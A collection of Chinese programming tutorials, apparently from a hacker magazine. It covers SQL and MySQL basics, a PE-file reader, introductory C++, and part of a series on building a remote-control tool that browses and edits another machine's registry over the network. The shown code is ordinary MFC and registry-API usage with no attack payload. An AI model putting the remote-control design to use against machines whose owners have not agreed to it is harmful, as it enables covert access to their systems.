这里其实“delete from 表名”就已经是一条正确的语句了，但是为什么后面我还是加上了“where 条件”？我们不妨先在表中多添加几条数据，然后执行 delete from HackxTest2，就会发现 HackxTest2 中的所有数据都不见了。毕竟计算机并不知道你要删除表中的哪条数据，那么只有采取一个措施：全部删除。所以这里 99% 的情况后面都会带上条件。这里完了以后，条件不用多说了吧。假设我要删除 ID 为 1 的数据，那么就写成：

```sql
delete from HackxTest2 where ID=1
```

同理，如果要删除名字为张三的数据，那么就写成：

```sql
delete from HackxTest2 where Name='张三'
```

这里要说明一下：数据库中数据是以条为单位的，不是以个为单位的。换个说法来说，在我们这个表中，ID 与其对应的 Name 是一条数据。所以第一条语句是数据 1 和数据“张三”都删掉了，而并不是只有 1 这个值删掉。再换个说法就是，只要用了这个关键字，肯定是按行来删除，整行的数据都会被销毁。这就是删除语句。其实我最喜欢删除数据，嘿嘿……删除后，我们要知道一点，就是删除之后同样会有一个执行结果，而依然是：n 行受影响。

从上面两种语句的总结，我们可以看出，同样是对数据进行了修改，同样是返回 n 行受影响。那么由此可见，所有对数据进行修改的操作，返回都是 n 行受影响，因为我们对数据进行操作的时候，多半关心的是我们修改数据是否修改对了，而不是这条记录中所有字段的值是什么。所以这里都是只返回数字，唯独查询的时候，会返回指定字段的值。这也是大家要明白的，现在没什么用，后面一定有用。

还有最后的两个操作，改和查。改的话依然是很简单，看语法：

```sql
update 表名 set 字段名=修改的值 where 条件
```

update 就是修改某个字段的值，这里 where 和后面的条件也是可以省略的，不过这样的话和 delete 一样，执行完了以后就会发现，所有记录的那个字段都被修改了。

最后一个当然就是查询了。所谓数据库技术，其实主要难就难在查询上，因为也许我们有很多表、很多复杂的关系，这样的话查询起来是很麻烦的。像大家学到后期，就会学习到多表查询。查询一张表自然是很简单的，但是有的时候四五张表一起查就很考思维了。不过我们这里先学习一张表的查询。语法：

```sql
select 字段名... from 表名 where 条件
```

这里不多说了，字段名这里可以有很多个，以逗号分隔。查询语句和其他语句不同，大家看到执行结果是一张表，而不是多少行受影响。这一点是至关重要的。实际上执行结果确实是在内存中虚拟了一张表。我们甚至可以用嵌套查询。这些我们后面开发网站的时候再说吧，毕竟大家都是初学者。那么我们学习了对数据库的基本操作就够了吗？其实数据库技术也是一门很高深的技术。大家要学会 SQL 并不难，比起其他语言来说，SQL 简单多了。但是 SQL 只是数据库技术的一部分，数据库技术的更高体现于设计，而不是编写。一个好的数据库设计对于一个软件来说至关重要……数据库技术绝对是搜索引擎成功的一个重要因素。

也正如我所说，SQL 注入这个黑客界的基础中的基础，就是基于 SQL 注入而来的。大家去看看 SQL 注入原理就明白了。这里增删改查的操作我说得不是很细致，没有给太多例子。因为很多细节上的问题写出来看着像废话，同时稿子篇幅有限，不可能面面俱到。所以大家如果对 SQL 有兴趣可以查找相关资料来看，一定会受益无穷。

好了，我们本月的内容就到这里，下一章我们开始讲解如何用 PHP 对数据库进行操作。敬请期待。

# 小小地实现一个远程（5）

## ——注册表的管理

影 月

大家好，又见面了。我们今天就要来学习在远控中编写注册表这块的内容了。管理注册表并不是一件很容易的事情，尤其是我们的 SocketData 类只有两个成员变量。大家想想，注册表要进行编辑，肯定最少有三个概念的。第一，注册表路径。第二，注册...表的值，第三，注册表值类型。那么这几个是必不可少的，好，那么多的我不说了，开始吧。注册表编辑既然要做，首先界面肯定要准备好。先添加一个对话框资源，然后往上面拖放一个树控件。我们都知道一点，就是在 Windows 下面，注册表有 6 个根项是已经定义好了的：

```text
HKEY_CLASSES_ROOT
HKEY_CURRENT_CONFIG
HKEY_CURRENT_USER
HKEY_LOCAL_MACHINE
HKEY_PERFORMANCE_DATA
HKEY_USERS
```

在上面的几个根键中，大家可能唯一没有见过的就是这个：HKEY_PERFORMANCE_DATA。这个键的话，用 regedit 是看不到的，但是用注册表 API 可以进行相应操作，只不过没必要去弄它，因为里面的信息非常杂乱。那么有了六个根键，我们现在要先把根键添加到树控件。这个应该是窗体加载的时候就添加进去。不过，我们很快就会发现，双击我们的新窗体并不能直接跳到窗体的初始化事件了。所以我们这里要重写一下窗体的初始化事件。注意这里我的窗体关联的类叫做 CRegMgrDlg，所以我要在 RegMgrDlg.h 中添加代码。在 protected 后面添加一行 `virtual BOOL OnInitDialog()`，这样我们就可以重写方法了。在 RegMgrDialog.cpp 添加我们的方法吧。怎么添加就不用我说了吧……

不过这里我要说一下，如果重写了方法，最好调用一下父类的方法。这个父类是 CDialog，那么第一步就应该先调用 `CDialog::OnInitDialog()`，否则就会抛出异常。完了以后，我们就要来看看树控件的基本操作了。要往树控件里面添加东西，我们可以用 InsertItem 方法，但是这个方法为了方便，微软的程序员给了我们很多种不同的重载。我这里就不一一介绍了，就说下我们今天要用的吧。看看原型：

```cpp
HTREEITEM InsertItem(
    LPCTSTR lpszItem,
    int nImage,
    int nSelectedImage,
    HTREEITEM hParent = TVI_ROOT,
    HTREEITEM hInsertAfter = TVI_LAST
);
```

`lpszItem` 是要添加项的文字，`nImage` 是要添加项的图片在 ImageList 中的索引（这里的 ImageList 等会会讲，现在看这个肯定会懵住的），`nSelectedImage` 是当该项被选中时图片的索引。`hParent` 是父节点句柄，`hInsertAfter` 是前一个平级项的句柄。最后一个参数保持默认即可，因为我们这里并不关心平级项的先后顺序。

好了，现在来说 ImageList 的问题。regedit 的树控件前面只有几个不同的图标构成，但是如果说我们在做一个东西的时候，树控件每一个项前面都有图标，而且三三两两，有的相同，有的不同。

这种情况下，可能就需要一个 ImageList 来让我们方便对大量的图片进行管理。所以 CTreeCtrl 提供了一个方法叫做 SetImageList，可以让我们设置与 TreeView 相关联的 ImageList，让我们更便捷地去编写程序。SetImageList 原型如下：

```cpp
CImageList* SetImageList(
    CImageList* pImageList,
    int nImageListType
);
```

第一个参数是 ImageList 对象的指针；第二个参数是 ImageList 的类型。这里有两个值可以取：

- `TVSIL_NORMAL`：设置普通的图像列表，列表中包含树控件中项被选中和未被选中时的图像。
- `TVSIL_STATE`：设置状态图像列表，包含用户自定义状态的图像。

这里我们当然是用第一个就可以了。这里我推荐大家把 ImageList 对象作为 CRegMgrDlg 的一个成员放在里面，方便我们后面使用。这里又要涉及大量的方法了，很麻烦的一件事情呢。注意 CImageList 使用的时候要先调用 Create 方法来初始化，否则抛异常。我就忘了这事，怎么想都觉得代码是对的，但是就是出这种问题。给大家个提醒。原型：

```cpp
BOOL Create(
    int cx,
    int cy,
    UINT nFlags,
    int nInitial,
    int nGrow
);
```

`cx` 和 `cy` 是图片的尺寸，我这里找了一个 16×16 的小图标，所以两个都写 16。`nFlags` 是用来说明创建哪种类型的 ImageList。这里是选择题，根据自己的图片来看。可以选择的有：

- `ILC_COLOR`：如果没有其它 `ILC_COLOR*` 被选择，则使用默认的 `ILC_COLOR4`；但如果是旧的显卡驱动程序，则默认为 `ILC_COLORDDB`。
- `ILC_COLOR4`：使用 4 位（16 色）设备独立位图（DIB）部分作为图像列表的位图。
- `ILC_COLOR8`：使用 8 位 DIB 部分，彩色表格使用的颜色与半色调调色板的一样。
- `ILC_COLOR16`：使用 16 位（32/64K 色）DIB 部分。
- `ILC_COLOR24`：使用 24 位 DIB 部分。
- `ILC_COLOR32`：使用 32 位 DIB 部分。
- `ILC_COLORDDB`：使用设备相关位图。
- `ILC_MASK`：使用掩码。图像列表包含两个位图，其中一个是用作掩码的位图。如果不包括此值，图像列表只包含一个位图……

`nInitial` 表示 ImageList 在初始化的时候包含几张图像，而 `nGrow` 用来限定 ImageList 可扩展的图像数量。关于 Create 就说到这里，至于其他用法请自行查阅。

调用了 Create 以后就可以往里面添加图片了，注意这个 ImageList 是有序的，也就是第一个插入进去的编号就是 0，第二个是 1，以此类推。往里添加图片就是用 Add 方法，还是说下原型吧：

```cpp
int Add(
    HICON hIcon
);
```

这个是最简单的一个，当然，这个也有很多重载的；其他用法依然还是自己去看吧。好了，我们要用到的函数都完成了……这里我们使用 SetWindowLong 来设置即可。

```cpp
SetWindowLong(
    m_RegTree.m_hWnd,
    GWL_STYLE,
    GetWindowLong(m_RegTree.m_hWnd, GWL_STYLE)
    | TVS_HASLINES | TVS_HASBUTTONS | TVS_LINESATROOT
);
```

给大家贴一下本章中做好的成品图吧，我们要做的大致就是这个样子：这里我们的窗体就完成了，接下来要做的就是网络部分的代码……

以有值，也可以有子键，也可以有值和子键。且不说我们现在要执行的操作，单单想想遍历就很麻烦，还好有专门的 API 函数 RegEnumKey 和 RegEnumValue……

```cpp
LONG WINAPI RegEnumKey(
    __in   HKEY hKey,
    __in   DWORD dwIndex,
    __out  LPTSTR lpName,
    __in   DWORD cchName
);
```


`hKey` 其实就是父键的句柄……`dwIndex` 是要获取的项的索引。这里大家也都看到，我们的 RegEnumKey 函数并不是一下就返回所有的键，所以这里只能通过索引一个一个来获取……

```cpp
LONG RegEnumValue(
    HKEY hKey,
    DWORD dwIndex,
    LPWSTR lpValueName,
    LPDWORD lpcchValueName,
    LPDWORD lpReserved,
    LPDWORD lpType,
    LPBYTE lpData,
    LPDWORD lpcbData
);
```

这个函数似乎要复杂一些，首先第一个参数和上面的是一样的，父键的句柄。第二个也是和前面一样，`lpValueName` 是用来存放值名的缓冲区，`lpcchValueName` 是缓冲区大小，当函数返回的时候，这个值会变成这个键名的实际长度。`lpReserved` 是我最喜欢的参数了，永远设为 `NULL` 即可。`lpType` 标识着值的类型，可能是以下几种：

- `REG_BINARY`：表示这个值为二进制值。
- `REG_DWORD`：一个 4 字节的低位靠前的整型值。
- `REG_DWORD_LITTLE_ENDIAN`：和 `REG_DWORD` 一样。
- `REG_DWORD_BIG_ENDIAN`：一个 4 字节的高位靠前的整型值。
- `REG_EXPAND_SZ`：一个包含未被解析的环境变量的字符串。
- `REG_LINK`：一个 Unicode 的链接，一般软件不用。
- `REG_MULTI_SZ`：一个 null 结尾的字符串数组，由两个 null 结尾。
- `REG_NONE`：表示该键未定义类型。
- `REG_RESOURCE_LIST`：一个设备驱动资源列表。
- `REG_SZ`：一个 Unicode 的 null 结尾字符串。

主要就是这么几个，这些数据是从 MSDN 上翻译过来的，有的地方不是很好翻译，可能意思有点不准确，不过大体上是没什么问题了。`lpData` 这个参数是接收值的数据缓冲区，可以为 `NULL`，最后一个参数是缓冲区大小，当函数返回会设置为该数据的实际大小。

这两个注册表操作的函数总算是结束了，不过噩梦才刚刚开始。毕竟这里获取是获取了，但是要发送、要整合各种数据，是一件很麻烦的事情。最重要的一个问题存在于哪里呢？其实最重要的就是我们如果一次就把所有的注册表项发送过来并显示，是一件很尴尬的事情，因为你很快就会发现那一瞬间占用的带宽很多。所以我们这里采取了一个方法，就是在用户没展开注册表之前，我们不获取该项的子项，只有等展开之后，我们再去获取，这样我们就可以把流量分开，不至于一下卡住。这里我们要给我们的 TreeView 弄一个事件来响应。在事件发生之后，我们立刻发送指令到服务端，要求获取该键下面的所有子键和值，这是最好的一个实现。不过又有一个问题，我们目前所有的项下面都没有数据，没有数据的项前面就没有“+”号的可展开按钮，没有按钮就无法展开，所以这里我们要预先给我们所有项下面添加一个临时项，我这里就添加了“获取中...”这样一个项。这样就可以避免这个问题。

现在用向导添加一个事件处理程序用于响应 `TVN_ITEMEXPANDED` 消息，添加好了以后我们可以看到事件处理函数已经帮我们生成一行代码。这行代码中定义的 `pNMTreeView` 指针就是触发消息的项的一些信息，我们可以用 `pNMTreeView->itemNew.hItem` 直接访问到被展开的项的句柄，为我们提供很大的方便。这样一来，很多问题也就迎刃而解。不光逻辑上，我们可以减少很多代码，不像一起遍历那样要解决很多结构的问题。

不过，现在我们又要处理一些新的问题，我们在注册表中涉及的数据很多，包括注册表的路径之类的。很明显，在网络发送的时候就会发现，我们的数据包类并不能满足我们的需求了。因为我们只有一个缓冲区，而注册表操作中就可能包含很多很多很多的不同类型的数据，所以这里我们很可能面临着要修改数据包类的问题。如果修改，就面临着很大的风险，因为我们程序中很多地方都会面临着修改。我这里呢，不打算这样做，这里我考虑直接新建一个类。在发送数据包的时候把新类的对象直接强行放到以前数据包类的缓冲区中。这样就避免了更改基本的数据包类。这里因为我不出产品，所以这些细节我就做得很草率，本来按照平时的话，我肯定要改动代码的，因为这种错误属于设计上的严重疏漏。大家切勿和我一样草率，否则我会感到罪孽深重的（毕竟整个远控的架构我都没有做过严谨的项目设计，都是脑子里面想想就直接动手了，所以出问题很正常）……所以这里也严重地请求大家多多谅解啊。

大家注意，如果网络数据包这些发生了变动，那么两边都一定要进行同步，否则……就会看到不想看到的事情。我这里又图方便，把新增的数据包类直接放到了 `SocketData.h` 下面了。这里我的新的注册表相关的数据包类叫做 `SocketRegData`，大致我就写成下面这样：

```cpp
class SocketRegData
{
public:
    HTREEITEM hParent;
    DWORD TYPE;
    wchar_t pName[1024];
    BYTE value[5000];
};
```

这个类我初步估计后面可能会有改动，因为我现在很累啦，大脑也开始有点混乱了，后面改到再说吧。如果对月下孤笔有什么建议，欢迎大家加我 QQ 或者跟编辑部反馈，谢谢大家的支持。本期的远控开发的内容就到这里，下一章我们开始对远程注册表编辑功能的网络部分进行编写，敬请期待。

## 我们自己做PE文件信息读取器（下）

影月

大家好，在上一篇中，我们学习了怎么读取 PE 文件的一些基本信息，今天我们更进一步，来完善我们上一章中没有完成的功能。那么上一章中，我们还有节表和入口点没有弄，那么我们现在先来看看节表吧。节表紧跟在 PE 文件的 PE 头后面，那么我们既然都获得了 PE 头的指针，如果将指针移动到节表第一项是没有任何问题的，代码其实和之前差不多，这里根据以前的内容，不难做。

这里大家应该注意到我们需要添加新窗口来显示我们获取到的节表，这里我们还是一步一步来。因为主窗体上有一个获取节的操作（主窗体要显示第一个节），而一个子窗体里面还要输出所有节的信息。获取节的操作我这里就不说了，只要把 NT 头的指针 + `sizeof(IMAGE_NT_HEADERS)` 就可以拿到第一个节表的指针。有了节表，自然就手到擒来啦。

这里我就不给示范代码了，因为和检验 PE 文件有效性的代码差不多。还是有一点要说，这里又存在格式化字符串的问题了，大家如果项目编码为 Unicode 就比较麻烦，因为相信代码写出来就肯定有人纳闷了，因为我们读取到的节名为 ANSI 编码，而项目编码是 Unicode，所以看着读取到的数据是对的，显示出来就错了。这个编码转换的处理在 89 期的合刊中，已经处理过了，我这里不再赘述，编码转换方法很多，大家没买到合刊的也不用急，百度一下会有很多答案。

相信大家获取节表很容易吧？我这里偷懒地写，把原来那个检验有效性的代码给弄来改了下就出来了。不过这里我们既然获取到了第一个节的数据来了。我给张调试的图吧：


图1

再看看 PEiD 里面给出的 code 段的数据：


图2

是不是看到了很多熟悉的身影呢？那么首先我觉得第一个要给大家说的就是偏移差的计算了，大家肯定最熟悉的就是 VirtualAddress 这个了。根据上一期给大家的公式：偏移差 = RVA - FileOffset，这里我们很容易可以算出 `0x1000 - 0x400 = 0xC00`，那么根据偏移差，再结合我们之前获取到的入口 RVA，即可算出我们入口点的文件偏移量。

这里换算起来很麻烦，而且当时我学习的时候也是弄得头晕脑胀，不过大家要尽量去看。后来我找了一个标准的 PE 文件，然后根据 PE 文件格式一个字节一个字节数着对着看，终于记清楚，弄明白。大家如果觉得 PE 这块的文章看着实在蛋疼，可尝试一下我的笨办法，起码我现在感觉很清晰。

好了，不瞎扯，我们继续，这里添加一个新窗体，里面放一个列表视图，我们来把区段这块做一下。

那么实际上这个软件大致的技术含量我这里已经全部讲过了，其实大家应该也能感觉到了，我们的技术含量其实并不多，就是 PE 文件结构、MFC，还有 C++ 文件读写。本来按照一个简短的技术文章，所有技术要点都讲到就算是大功告成了，不过我还是希望能写一篇完整的文章，起码大家不会看完之后拿着一个半成品发愣。

只是后面的代码我就写得更加草率一点，毕竟翻来倒去地讲也没意思。好，回到话题，这里我们的内容很简单，就是在窗体加载的时候读出所有节的数据即可。我在新窗体里面直接添加了一个 `ReadAllSectionData` 的函数，这里返回值和参数都不要了，函数里面读出直接就显示吧（说了代码要草率就肯定会草率的）。步骤：

- 读文件。
- 获取节数量。
- 读取节表。
- 关闭文件。
- 大功告成，坐下喝茶。

这里唯一要说的就是读取节数量，节数量我之前没有提太多，其实节数量在 `IMAGE_FILE_HEADER` 下面的 `NumberOfSections` 就有记录，我们这里可以很容易地获取到。还是按照以前的代码依葫芦画瓢。对于 CListCtrl 的操作，月下孤笔在以前的文章中有，我这里不多做赘述。

这里比较麻烦的依然是字符串的处理，或者说字符串的处理在 C++ 中也一直很麻烦，相比于其他语言来说。好了，下面子系统右边这里的按钮我是实在不打算写了……

套路，对于得一直组织语言的我来说，要把相同的语句用不同的语言说三次还是比较困难的。好了，关于我们的最后一个按钮，我相信大家应该没什么问题了，这些东西都是在 NT 头中存放着的，所以我觉得这里也没必要多说，这里无非就是先读出信息，然后显示就完了。最后很多代码我都没有管内存的释放，大家如果写正规程序的话，一定要注意这些细节。还有就是首字节的读取，这个其实根据入口点来读取就可以了，至于反汇编这块，这个写起来就麻烦了，我以后慢慢给大家写吧。贴下图吧……

在文章最后说一下不相关的，最近上网觉得挺难受的，很多 X 子要么就是加我，加了以后没事，就这么干摆着。首先我 QQ 上是没多少好友，但是正是因为很多人加了不说话，我才删掉的。所以我希望各位 X 子在有事的时候再加我，问完了，如果你觉得自己以后不会再问了，那麻烦你把我拉黑掉。如果觉得以后可能还有问题要问，那就希望不是有问题的时候才会点下那个网名叫做影月的 QQ，这个我希望大家也能予以理解。我不需要大家给我什么回报，但是陌生人始终是陌生人，帮一个陌生人一次是我好心，两次是道义，三次？那是我脑残了，我可以帮一个不认识的网友很多次，但是不会帮一个网上的陌生人很多次。回答了两三次问题了，有心的人肯定能成为朋友。无心的，我也不希望成为一个回答问题的机器。最最后，我要提醒极少数的 X 子，我在网上对你们进行一些技术解答，完全是出于一种道义，我希望能有更多的人学到技术。但是回答问题不是我的责任，我也不欠你们那几个答案。有的来了觉得我回答你们是理所应当的 X 子，麻烦你们拿出点对我的尊重。

上面这段话完全是影月的心声，针对的也是极少数 X 子，很多 X 子还是让影月感到非常温暖的，逢年过节，哪怕小小的一声问候，也会让我觉得很甜，让我觉得我乐意帮助任何人。所以，仅仅是很小一部分人让我感到气愤，我也就发发牢骚，希望各位 X 子能够一如既往地支持影月，支持月下孤笔，谢谢。


图4

## 连载C++（1）

影月

大家好，为了应编辑部要求，我这里又新增一篇连载，主要是因为有读者打电话反馈，希望能从头开始学习 C++。说实话，我挺怕写入门教程的。说是说入门教程简单，不用想太多的东西，但是正是因为简单，我才怕写。举个例子，大家从幼儿园开始学习数学，到现在也 10 多年了吧？那么谁能用逻辑证明一下 1+1 为什么等于 2？据说前不久有个数学家查阅了大量资料并且花了很长时间才证明了这个问题。所以说我很怕写。正经到后期的编程教程，我觉得很多时候只要说思路、函数用途和编程思路，都可以很容易地跟着思路写出来。因为我不用花太多时间去解释一些难以解释的简单东西。

对于这篇连载文章，我说下大致的规划。首先，所有入门的文章，肯定少不了理论的概念。但是理论对于初学者来说是很困难的一件事情，所以我是尽量减少理论的内容吧。然后编程部分，很多初学者看到了大量的窗体应用都非常心动，我当初也很心动，但是写了很久才发现，我还是停留在控制台阶段。这个是个很尴尬的事情，但是也是无可避免的事情。所以控制台部分，为了给大家打下一个坚实的基础，我可能会花费很长时间来讲。

学完控制台部分之后，我会带大家过一下 MFC，MFC 框架无疑是一个非常有名的框架，至今依然很受欢迎，因为简化了大量的 API 操作并且让 C++ 也可以拖放控件，我觉得这是一个非常大的突破。MFC 过完之后，那么就是系统方面的编程，各类 API 的使用以及其他类型的可执行文件的编写。在大家对系统方面比较熟悉之后，就开始学习驱动程序的开发。这个过程非常长，大家如果怕麻烦的请跳过这篇文章并欣赏本期《黑客X档案》其他的文章。

我觉得很有必要告诉大家的一点，就是学习编程不要怕麻烦，不要怕难，这篇连载我已经尽可能让初学者能看懂。当然了，对于初学者，完全看懂是不太可能的，我自认为也没那么好的文笔。万事开头难，我以前一天看一页书都看得头晕脑胀，坚持过来了，春天就到了。为什么说学编程不要怕麻烦，我们首先要搞明白一点：软件是拿来干什么的？软件是用来方便用户的，看看现在的 QQ，为用户的联系上提供了多少便利？但是用户觉得麻烦的事情，你要写软件方便用户，你觉得用户省下的麻烦到哪去了？不错，都得到程序员身上，所以怕麻烦，肯定学不好程序。这就是我要说的，程序员是个脑力活，也是个体力活。

对于这篇连载，我觉得，既然小编们愿意让我来写这文章，那么说明我还是被小编们认可的，我也一定会尽力去写。既然是我写的，我不会像其他的书籍一样，通篇引用。如果我再去找一本入门书籍照抄，也没啥意思了。那还不如我直接告诉大家。

# 月下孤笔

去买哪本书看：C 和 C++ 可能引起了很多读者的困惑……学了 C 的，补上一些东西，也就可以掌握 C++。

很多人说 C 是面向过程，C++ 是面向对象……既然是思想，就不局限于语言，C 也可以面向对象，C++ 也可以面向过程。

好了，说了一大篇废话，现在我们在废话中慢慢走向主题吧……我们编写程序，其实就是要把我们想要做的事情翻译为计算机能听懂的语言。

- 1. 计算机能听懂，并正确理解，程序正确。
- 2. 计算机听不懂，程序语法错误。
- 3. 计算机听得懂，但是理解错误，程序逻辑错误。

这三种情况，遇到后两种程序都算出错……我也就只打算讲理论，比较无聊，但是我没办法不讲。

这里我给大家说一下，我们要经过哪些步骤才能写好一个程序：

- 1. 需求分析
- 2. 项目设计
- 3. 编写代码
- 4. 编译执行

这是最基本的四个步骤。需求分析其实就是整理一下……编写代码是开发过程中最重要的一个环节了。

问题往往出在这一步里面。最后编译执行其实不是由我们来做的，是开发工具帮我们做的，我们要做的只是按下开关，仅此而已。

再说一个可能对大家有帮助的东西……计算机其实只认识二进制。我们编写的代码，并不是直接就执行的，而是编译为二进制文件执行的。

那么大家能够理解上面这一点，那么后面就更好理解了……现在的 C++ 编译器基本上都支持 C 语言的编译。


图1

所以，C++ 同样可以使用 C 语言里面的东西……我这里呢，本来是想用 VC6.0，因为那个对于大家来说可能要简单一点，但是很不幸，为了追赶 Win 7 的潮流，影月也把系统换成了 Win 7，所以 VC6.0 用不了了，只能用 VS2008 给大家讲。VS2008 是微软的一套庞大的集成开发环境，全名 Microsoft Visual Studio 2008，里面可以开发 VB、C++、C# 等语言项目，而且强大的提示和排错功能能给程序员带来很多便利。

这里我说一下，有一个叫做 Visual Assist X 的插件，安装在 VS2008 上以后很好很强大。如果觉得学习特别困难，可以下载插件降低难度。不过对于初学者来说，最好不要使用插件。VS2008 的大致界面如下图（根据个人设置不同，可能略有不同）。我们这里点击“文件->新建->项目”可以看到对话框。


图2

这里我们选择 Win32 控制台应用程序，注意左边分类一定要是 Visual C++。输入项目名称后点击确定，会进入设置向导，第一项显示的是当前项目设置，下一步可更改应用程序类型等。这里一般默认，去掉预编译头即可创建项目。创建完成后可在“解决方案资源管理器”中看到项目文件（如图3）。

这里其实很多文件都没用。为避免初学者被太多文件弄晕，可以把除 HackxCpp.cpp 以外的文件删掉。打开保留的文件后，因去掉了 stdafx.h，需要把：

```cpp
#include "stdafx.h"
```

改成

```cpp
#include <tchar.h>
#include <stdio.h>
```

改完以后程序就可以运行了。虽然现在运行没有任何作用，只是闪一下。这是一个最简单的程序。现在大家看下，整个文件的所有代码就这么一点点。


不过现在代码还是有那么几行，计算机怎么知道代码从哪里开始执行呢？`int _tmain(int argc, _TCHAR* argv[])` 这一行告诉计算机程序入口；程序从后面的大括号开始执行，最后执行 `return 0;` 结束。要做别的事情，就在大括号里添加代码，通常写在 `return 0;` 之前。


图3

## php实战攻略（6）

### —— SQL篇

影月

大家好，在上两个月中我们学习了如何在界面管理工具中对数据库进行基本的增删改查操作，那么在本章中，我们本来应该学习在 php 中如何操作 MSSQL，但是很不幸的是，在 php 5.3.2 以后，就已经不支持传统的 php 扩展方式来进行数据库操作。如果是以前的版本，可以通过添加对 php_mssql 的引用来添加 mssql 数据库操作的支持。但是现在似乎这个已经用不了了，微软发布了一个新的用于 php 的 MSSQL 驱动；但是依然很不幸，我的电脑调试了半天，依然抽风中。无奈之下，我只能稍稍更改原有计划，先来讲 mysql 了。那么既然都是支持 sql 的数据库，那么我们之前学过的都还管用；但是换了数据库，很多东西都得换掉了。现在我们要管理 mysql 就肯定不能用以前的工具。

目前比较常用的是一套叫做 phpMyAdmin 的管理系统，这套系统 wampserver 已经给我们弄好了，点开 wampserver 菜单我们就可以看到有一项：phpMyAdmin。进去之后我们可以看到并没有提示登录，就已经可以对数据库进行操作了。phpMyAdmin 已经自动登录上去了。mysql 出身就不像 mssql 那样豪华，不过现在还好，据说是被 Oracle 公司收购了，也算是嫁入豪门，不过却似乎没捞到什么好处，依然不是很好用。很多时候，我们还得依靠输入命令的方式来管理数据库，不过好在现在第三方管理软件很多，简化了很多操作，像 oracle 也是一样，如果你不用第三方软件，也得敲命令，很是蛋疼。

我们在 wamp 的菜单里面可以找到 mysql，mysql 的子菜单中有一个叫做 MySQL Console 的项，我们初期就在这里进行管理，后期我们再用 phpMyAdmin。虽然控制台管理比较难，但是也方便大家打下坚实的基础。我们打开 MySQL Console，看到控制台输出 `Enter password.`；这个不用说是什么意思了吧？把密码输进去，如果你没有设置过密码，就默认为空，我这里直接敲回车就登录成功。一排说明之后，我们看到了最后一行有个 `mysql>` 的输出，表示 mysql 已经在准备听候吩咐了。我们来查查它的户口，输入 `select version();`，这样我们就可以让它报出它的版本号。注意这里末尾一定要打分号，否则它认为你的话没说完，还等你说完。执行之后，我们可以看到控制台中输出了我们要的内容，还发现 mysql 的程序员还真有耐性，还好好排了下布局：

| version() |
|---|
| 5.5.16-log |

1 row in set (0.00 sec)

这就算是我们跟 mysql 打个招呼吧。不知道大家有没有尝试过不打分号就回车会怎么样？没错，行前面的提示符不再是 `mysql>`，而是 `->`，表示 mysql 依然还在等待你的输入。对此官方文档给出了一句描述让我觉得很有意思也很有道理：“提示符是你的朋友，因为它提供有价值的反馈，如果使用该反馈，将总是知道 mysql 正在等待什么。”没错；我们既然学习程序，学习计算机，我们就要学会从正确的地方获取我们想要的信息。这一点是很重要的，试想以后调试错误，找对地方可能你只要花两分钟，找错你可能要花两天，就是这样。所以从这一点上，我非常赞同这句话，那么我把官方给出的几种提示符都说一下：

- `mysql>` 准备好接受新命令。
- `->` 等待多行命令的下一行。
- `'>` 等待下一行，等待以单引号（`'`）开始的字符串结束。
- `">` 等待下一行，等待以双引号（`"`）开始的字符串结束。
- `` `> `` 等待下一行，等待以反引号（`` ` ``）开始的标识符结束。
- `/*>` 等待下一行，等待以 `/*` 开始的注释结束。

那么，大家一定很好奇，我们现在要进行建库建表操作怎么办呢？建库建表其实都可以用 sql 语句来实现，语法如下：

```sql
create database 库名;
```

我这里建了一个名为 hacktest2 的数据库，执行之后看到输出 `Query OK, 1 row affected (0.05 sec)` 就说明成功。那么弄完数据库就要建表了，不过在建表之前，首先要告诉 mysql 我们要在哪个数据库里面建表，就要先使用 `use 库名` 选择数据库，执行完 `use hacktest2` 会输出 `Database changed`，接下来就可以开始建表了。建表和建库有区别，因为表的话，我们要考虑有哪些字段，语法如下：

```sql
create table 表名(字段1 字段类型, 字段2 字段类型);
```

我们还是根据上次的配置来建表，一个 ID 字段，一个 name 字段。mysql 中很多数据类型和 mssql 是一样的，比如 varchar 和 int，那么这里我就写了这样的建表代码：`create table hackx (id int, name varchar(10));`。当然，如果大家害怕建表重复，可以通过 `show tables;` 指令来显示该数据库现有的表；如果没有表，会输出：`Empty set (0.00 sec)`；如果有表，就会显示出表名。好了，建库、建表完成，我们现在来插入一条数据。增删改查的代码都是和以前一样的，以前都是教大家标准的 sql 语句，所以这里也通用。

插入一个 id 为 1、名字为张三的数据。然后大家同样可以用 select 语句来查看表中的数据。大家看了可能就觉得悲剧了，输入的是张三，查询出来是乱码……这个问题我们后面再说，现在大家就是熟悉一下 mysql 的基本操作就 OK 了。人家如果建好表以后，忘了某个字段名称，还可以通过 `describe 表名` 来查看表的结构。

好了，那么现在总的来说，mysql 的基本操作大家应该都会了。对于 php 来说，环境的配置绝对要比其他语言麻烦很多。这个是没有办法的……

……数据库维护人员的事情，不过如果自己既是开发人员，又是维护人员的话，肯定还是要下来多学习一点。权限的话，主要是对数据库用户进行权限分配；这个很有用的。导出导入是用来备份还原数据库的。变量的话，是查看当前变量，这个一般很少用……

接下来我们就讲一下基本的 php 操作 mysql 的理论，实践先不说下。首先，我们知道，mysql 是一个独立的软件，而我们写的 php 程序和 PHP 服务器，也构成了一个软件……


图1

数据库选项进去之后是对数据库、表和数据进行基本操作，SQL 选项进去以后就是执行 SQL 语句，状态选项主要是用来查看服务器状态、二进制日志、进程这些一般我们很少用的……

好了，那么本章的内容就到这里吧，由于理论的内容居多，后面会逐步转入实践，敬请期待。同时对我电脑抽风导致的写作计划打乱和文章知识散乱，还希望大家谅解和包涵……所以这里再次真诚给大家道个歉。

# 小小的实现——一个远程（6）

## ——注册码的管理

影月

大家好，上一章中我们对客户端的界面进行了处理，现在又是一个新的问题等待我们，就是如何去连接服务器了，这里也是很头疼的一个问题。窗体多了之后，要处理的数据越来越多，数据包也会越来越混乱。这里我们还有一个东西要先处理，就是……

我们注册表管理窗体出现的时间，我们现在只是为了调试方便才程序开始就启动，后面肯定不能这样的，我们要用一个菜单来对其进行控制。我们先在菜单中添加一项“注册表管理”并且添加相应的事件，然后，我们就要获取被选中项的 ID，并且根据 ID 获取到相应的服务端对象，这里的代码之前都有写过，我就不说了。现在，既然有了窗体了，就到了网络通信的流程了，注意这里我们只允许对一个服务端进行操作，第一是防止过卡，第二是我偷懒，所以这里窗体都用模态窗体显示。什么？什么是模态窗体？百度去百度去……

那么我们现在就要来设计数据包了。在此之前，我们要注意一点，就是我们要将对应的服务端对象传给窗体，否则窗体不知道发送指令给谁。这里不写构造函数啦，直接给 public 变量好了。只要赋值好了就行，我们一开始并不需要给服务端发送指令，所以我们直接 DoModal 就 OK 了。窗体一显示出来，我们就肯定意味着要开始考虑数据包的问题了，当用户展开一个项的时候，我们就要发送获取子项指令，然后服务端要将子项发送回来。

